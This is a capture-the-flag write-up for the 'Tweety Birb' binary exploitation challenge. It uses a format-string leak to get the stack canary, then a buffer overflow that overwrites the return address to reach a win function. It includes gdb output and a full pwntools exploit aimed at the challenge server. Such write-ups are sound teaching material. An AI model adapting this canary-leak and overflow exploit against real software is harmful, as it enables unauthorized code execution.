



# Tweety Birb

Pretty standard birb protection (nc 143.198.184.186 5002)

## Analysis

In this challenge we were given an ELF-64bit named `tweetybirb` with canary, NX enabled, and no PIE.

```
$ file tweetybirb; checksec tweetybirb 
tweetybirb: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b4d4948472c96835ae212febfaa1866e0cfa3082, for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/tweetybirb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it



It seems that the program will return the input that we give in the first input and than for the second input, the program returns nothing. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v4; // rdx
  int result; // eax
  unsigned __int64 v6; // rdx
  unsigned __int64 v7; // rt1
  __int64 v8; // [rsp-58h] [rbp-58h]
  unsigned __int64 v9; // [rsp-10h] [rbp-10h]
  __int64 v10; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v10 = v3;
  v9 = __readfsqword(0x28u);
  sub_401090(
    "What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb prot"
    "ectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?",
    argv,
    envp);
  sub_4010D0(&v8);
  sub_4010C0(&v8);
  sub_401090("\nhmmm interesting. What about water fowl?", argv, v4);
  sub_4010D0(&v8);
  result = 0;
  v7 = __readfsqword(0x28u);
  v6 = v7 ^ v9;
  if ( v7 != v9 )
    result = sub_4010A0(&v8, argv, v6);
  return result;
}
```

From the source code, there is another function that caught my eyes. It's a `win` function. Let's take a look.

#### win
```c
__int64 win()
{
  __asm { endbr64 }
  return sub_4010B0("cat /home/user/flag.txt");
}
```

From the main function, it seems that we need to overflow the input and jump into the flag function. But since the program has canary enabled, we need to find the canary first to add into our payload. Otherwise it will detect that we were stack smashing. Let's use gdb to find the **canary**.

First, disassemble the main function to find the canary parts.
```
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x00000000004011f2 <+0>:     endbr64 
   0x00000000004011f6 <+4>:     push   rbp
   0x00000000004011f7 <+5>:     mov    rbp,rsp
   0x00000000004011fa <+8>:     sub    rsp,0x50
   0x00000000004011fe <+12>:    mov    rax,QWORD PTR fs:0x28          <-- this is the canary
   0x0000000000401207 <+21>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040120b <+25>:    xor    eax,eax
   0x000000000040120d <+27>:    lea    rdi,[rip+0xe0c]        # 0x402020
   0x0000000000401214 <+34>:    call   0x401090 <puts@plt>
   0x0000000000401219 <+39>:    lea    rax,[rbp-0x50]
   0x000000000040121d <+43>:    mov    rdi,rax
   0x0000000000401220 <+46>:    mov    eax,0x0
   0x0000000000401225 <+51>:    call   0x4010d0 <gets@plt>
   0x000000000040122a <+56>:    lea    rax,[rbp-0x50]
   0x000000000040122e <+60>:    mov    rdi,rax
   0x0000000000401231 <+63>:    mov    eax,0x0
   0x0000000000401236 <+68>:    call   0x4010c0 <printf@plt>
   0x000000000040123b <+73>:    lea    rdi,[rip+0xeb6]        # 0x4020f8
   0x0000000000401242 <+80>:    call   0x401090 <puts@plt>
   0x0000000000401247 <+85>:    lea    rax,[rbp-0x50]
   0x000000000040124b <+89>:    mov    rdi,rax
   0x000000000040124e <+92>:    mov    eax,0x0
   0x0000000000401253 <+97>:    call   0x4010d0 <gets@plt>
   0x0000000000401258 <+102>:   mov    eax,0x0
   0x000000000040125d <+107>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401261 <+111>:   xor    rdx,QWORD PTR fs:0x28
   0x000000000040126a <+120>:   je     0x401271 <main+127>
   0x000000000040126c <+122>:   call   0x4010a0 <__stack_chk_fail@plt>
   0x0000000000401271 <+127>:   leave  
   0x0000000000401272 <+128>:   ret    
End of assembler dump.
```

Next, break the address `0x0000000000401207` or `main+21`
```
gdb-peda$ b *main+21
Breakpoint 1 at 0x401207
```

Now run the program again inside gdb. Since the canary saved in the rax (`mov    rax,QWORD PTR fs:0x28`, mov means move, so the canary will be saved in the rax). We could check or examine the `$rax` register.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/tweetybirb 
[----------------------------------registers-----------------------------------]
RAX: 0x456eeae89ccf3d00      <-- this is the value of the canary
RBX: 0x0 
RCX: 0xc00 ('')
RDX: 0x7fffffffe038 --> 0x7fffffffe39b ("COLORFGBG=15;0")
RSI: 0x7fffffffe028 --> 0x7fffffffe36f ("/home/kali/Documents/killerqueen/tweetybirb")
RDI: 0x1 
RBP: 0x7fffffffdf30 --> 0x4012e0 (<__libc_csu_init>:    endbr64)
RSP: 0x7fffffffdee0 --> 0x7fffffffe038 --> 0x7fffffffe39b ("COLORFGBG=15;0")
RIP: 0x401207 (<main+21>:       mov    QWORD PTR [rbp-0x8],rax)
R8 : 0x0 
R9 : 0x7ffff7fe21b0 (<_dl_fini>:        push   rbp)
R10: 0xfffffffffffff287 
R11: 0x7ffff7e65cd0 (<__GI__IO_setvbuf>:        push   r14)
R12: 0x4010f0 (<_start>:        endbr64)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011f7 <main+5>:   mov    rbp,rsp
   0x4011fa <main+8>:   sub    rsp,0x50
   0x4011fe <main+12>:  mov    rax,QWORD PTR fs:0x28
=> 0x401207 <main+21>:  mov    QWORD PTR [rbp-0x8],rax
   0x40120b <main+25>:  xor    eax,eax
   0x40120d <main+27>:  lea    rdi,[rip+0xe0c]        # 0x402020
   0x401214 <main+34>:  call   0x401090 <puts@plt>
   0x401219 <main+39>:  lea    rax,[rbp-0x50]
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdee0 --> 0x7fffffffe038 --> 0x7fffffffe39b ("COLORFGBG=15;0")
0008| 0x7fffffffdee8 --> 0x4012d5 (<bufinit+98>:        nop)
0016| 0x7fffffffdef0 --> 0x2 
0024| 0x7fffffffdef8 --> 0x40132d (<__libc_csu_init+77>:        add    rbx,0x1)
0032| 0x7fffffffdf00 --> 0x0 
0040| 0x7fffffffdf08 --> 0x0 
0048| 0x7fffffffdf10 --> 0x4012e0 (<__libc_csu_init>:   endbr64)
0056| 0x7fffffffdf18 --> 0x4010f0 (<_start>:    endbr64)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000401207 in main ()

```

Nice, we got the value of the canary. Now let's leak the canary using format string. We can assume the program has `format string` vulnerability because it prints the input that we give in the first input. So, let's try it out!
```
$ ./tweetybirb       
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7f6fe65ada03 (nil) 0x7f6fe65ad980 0x7ffd77d44210 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x702520 0x7ffd77d44350 0x9df5241bd4ecd00 0x4012e0 0x7f6fe6415d0a 0x7ffd77d44358 0x177d44669 0x4011f2
hmmm interesting. What about water fowl?
```

Great! We can use this to leak the canary. Now let's break the `main+21` again and then check the rax and use the payload of `%p`, 20 times to brute-force the canary.

#### Check the canary value in the `$rax` register
```
gdb-peda$ b *main+21
Breakpoint 1 at 0x401207
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/tweetybirb 
[----------------------------------registers-----------------------------------]
RAX: 0xb953497b80b9b700 
RBX: 0x0
...
...
```

#### Brute-forcing the format input to get the same value with the `$rax`
```
gdb-peda$ c
Continuing.
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7ffff7fada03 (nil) 0x7ffff7fad980 0x7fffffffdee0 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x702520 0x7fffffffe020 0xb953497b80b9b700 0x4012e0 0x7ffff7e15d0a 0x7fffffffe028 0x1ffffe349 0x4011f2
hmmm interesting. What about water fowl?
```

From the output above, if we check the value of `$rax` and the output. The value were the same in the 15th %p. So to check it again, we will use %15$p which is the same with %p for 15 times and only get the last value.

#### Check the canary value in the `$rax` register - Payload Check
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/tweetybirb 
[----------------------------------registers-----------------------------------]
RAX: 0xdaec4cdae35f1500 
RBX: 0x0
...
...
```

#### Payload Check
```
gdb-peda$ c
Continuing.
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%15$p
0xdaec4cdae35f1500
hmmm interesting. What about water fowl?
```

It is the same! All according to the plan. Now we could try to overflow the second input. Since the program will check the canary in the `main+111`, we could check the offset by examining the `$rdx`
```
gdb-peda$ b *main+111
Breakpoint 2 at 0x401261
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/tweetybirb 
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
nice
nice
hmmm interesting. What about water fowl?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

...
...

gdb-peda$ x/gx $rdx
0x4134414165414149:     Cannot access memory at address 0x4134414165414149
gdb-peda$ pattern offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Nice, we got the offset/padding. Now we need to know the address of `win` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401090  puts@plt
0x00000000004010a0  __stack_chk_fail@plt
0x00000000004010b0  system@plt
0x00000000004010c0  printf@plt
0x00000000004010d0  gets@plt
0x00000000004010e0  setvbuf@plt
0x00000000004010f0  _start
0x0000000000401120  _dl_relocate_static_pie
0x0000000000401130  deregister_tm_clones
0x0000000000401160  register_tm_clones
0x00000000004011a0  __do_global_dtors_aux
0x00000000004011d0  frame_dummy
0x00000000004011d6  win
0x00000000004011f2  main
0x0000000000401273  bufinit
0x00000000004012e0  __libc_csu_init
0x0000000000401350  __libc_csu_fini
0x0000000000401358  _fini
```

Lastly, we need to get the return address. So when we overwrite the stack, we could change the instruction to return to flag function. To get the return address, we could use ROPgadget.
```
$ ROPgadget --binary tweetybirb | grep "ret"
...
0x000000000040101a : ret
...
```

## Exploit

Let's make a solver using python
```python
from pwn import *

win = 0x00000000004011db
ret = 0x0000000000401272

offset = 72

s = process("./tweetybirb")

print(s.recvline().decode())

s.sendline(b"%15$p")

canary = int(s.recvline().decode(), 16)
log.info("Canary: {}".format(hex(canary)))
print(s.recvline().decode())

payload = b"A"*offset
payload += p64(canary)
payload += p64(ret)
payload += p64(win)

s.sendline(payload)

print(s.recvall())

s.close()
```

Now we need to do is just run the program to make sure it works!



Since it works, lets test on remote server by adding host, port and replacing `s = process("./tweetybirb")` to `s = remote(host, port)`
```python
from pwn import *

win = 0x00000000004011db
ret = 0x0000000000401272

offset = 72

host = "143.198.184.186"
port = 5002

# s = process("./tweetybirb")
s = remote(host, port)

print(s.recvline().decode())

s.sendline(b"%15$p")

canary = int(s.recvline().decode(), 16)
log.info("Canary: {}".format(hex(canary)))
print(s.recvline().decode())

payload = b"A"*offset
payload += p64(canary)
payload += p64(ret)
payload += p64(win)

s.sendline(payload)

print(s.recvall())

s.close()
```

Now all we need to do is just run the program!



Flag: `kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}`